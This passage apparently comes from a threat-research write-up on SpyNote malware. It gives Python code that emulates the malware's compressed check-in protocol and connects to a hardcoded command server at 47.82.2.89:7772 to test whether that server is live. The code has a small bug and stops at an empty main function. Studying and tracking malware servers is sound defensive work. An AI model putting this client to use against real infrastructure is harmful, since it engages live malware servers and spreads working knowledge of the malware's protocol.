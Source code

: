 This section provides a complete Python-based C2 emulator for SpyNote, demonstrating how the malware communicates with its command-and-control server.

```python
import re
import socket
import gzip

C2_HOST = "47.82.2.89"
C2_PORT = 7772

def compress_payload(identifier: str, raw_data: bytes) -> bytes:
    compressed_identifier = gzip.compress(identifier.encode())
    compressed_data = gzip.compress(raw_data)

    return (
        str(len(compressed_identifier)).encode() + b"\x00" +
        str(len(compressed_data)).encode() + b"\x00" +
        compressed_identifier +
        compressed_data
    )
  
# Collect system and network information
def collect_data() -> str:
    ftx0, ftx1, ftx2, ftx3 = "ftx0_value", "ftx1_value", "ftx2_value", "ftx3_value"
    resource_string = "app_resource"

    # Construct data structure with semicolon delimiter
    data_parts = [
        C2_HOST,
        C2_PORT,
        ftx0,
        ftx1,
        ftx2,
        ftx3,
        C2_HOST,
        resource_string,
        "[CR]",
        "V4"
    ]
    return ";".join(data_parts)

# Build and send payload to the C2 server.
def send_to_c2(identifier: str, raw_data: bytes):
    payload = compress_payload(identifier, raw_data)

    try:
        with socket.create_connection((C2_HOST, C2_PORT)) as s:
            print(f"Connected to {C2_HOST}:{C2_PORT}, sending {len(payload)} bytes...")
            s.sendall(payload)
            response = s.recv(1024)
            # Check format: bytes + null + bytes + null + 1f 8b 08(zip header)
            pattern = re.compile(b'^(.+?)\x00(.+?)\x00(\x1f\x8b\x08)', re.DOTALL)
            match = pattern.match(response)
  
            if match:
                print("C2 is alive")
            else:
                print("C2 is dead")

    except Exception as e:
        print("Send failed:", e)

def main():
```